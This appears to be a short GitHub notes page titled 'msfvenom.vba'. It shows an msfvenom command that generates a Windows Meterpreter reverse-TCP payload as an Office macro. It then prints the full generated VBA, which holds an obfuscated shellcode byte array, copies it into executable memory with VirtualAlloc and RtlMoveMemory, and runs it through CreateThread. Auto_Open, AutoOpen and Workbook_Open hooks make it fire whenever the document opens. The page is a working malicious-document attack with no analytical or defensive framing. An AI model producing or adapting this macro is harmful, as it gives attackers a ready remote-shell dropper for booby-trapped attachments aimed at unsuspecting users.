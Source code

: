 msfvenom.vba

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Host> LPORT=<Port> -f vba -o MacroAttack.vba
```

```bash
#If Vba7 Then
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Hsftnqav As Long, ByVal Ywha As Long, ByVal Bmxmxakic As LongPtr, Quks As Long, ByVal Eyjxc As Long, Cttl As Long) As LongPtr
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Zhxw As Long, ByVal Kqupn As Long, ByVal Wmc As Long, ByVal Synyvm As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Wbbwsxt As LongPtr, ByRef Ekp As Any, ByVal Bxssrljwg As Long) As LongPtr
#Else
    Private Declare Function CreateThread Lib "kernel32" (ByVal Hsftnqav As Long, ByVal Ywha As Long, ByVal Bmxmxakic As Long, Quks As Long, ByVal Eyjxc As Long, Cttl As Long) As Long
    Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Zhxw As Long, ByVal Kqupn As Long, ByVal Wmc As Long, ByVal Synyvm As Long) As Long
    Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Wbbwsxt As Long, ByRef Ekp As Any, ByVal Bxssrljwg As Long) As Long
#EndIf

Sub Auto_Open()
    Dim Sdcxt As Long, Jkkfrdd As Variant, Ttlr As Long
#If Vba7 Then
    Dim  Nss As LongPtr, Jqcace As LongPtr
#Else
    Dim  Nss As Long, Jqcace As Long
#EndIf
    Jkkfrdd = Array(252,232,143,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20,139,114,40,49,255,15,183,74,38,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192,116,76,1,208,139,72,24,139,88,32,80,1,211,133,201,116,60,49,255, _
73,139,52,139,1,214,49,192,193,207,13,172,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,51,50,0,0,104,119,115,50,95,84, _
104,76,119,38,7,137,232,255,208,184,144,1,0,0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,127,0,0,1,104,2,0,1,187,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0, _
106,0,106,4,86,87,104,2,217,200,95,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213, _
94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,240,181,162,86,106,0,83,255,213)

    Nss = VirtualAlloc(0, UBound(Jkkfrdd), &H1000, &H40)
    For Ttlr = LBound(Jkkfrdd) To UBound(Jkkfrdd)
        Sdcxt = Jkkfrdd(Ttlr)
        Jqcace = RtlMoveMemory(Nss + Ttlr, Sdcxt, 1)
    Next Ttlr
    Jqcace = CreateThread(0, 0, Nss, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```
